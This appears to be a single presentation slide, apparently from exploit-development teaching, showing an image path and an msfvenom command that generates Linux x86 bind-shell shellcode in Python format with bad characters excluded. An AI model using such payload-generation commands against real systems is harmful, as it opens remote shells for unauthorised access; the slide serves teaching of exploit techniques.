

# Generate Shellcode
msfvenom -p linux/x86/shell_bind_tcp
 -b '\x00\x09\x0a\x20'
 PrependFork=true
 -f python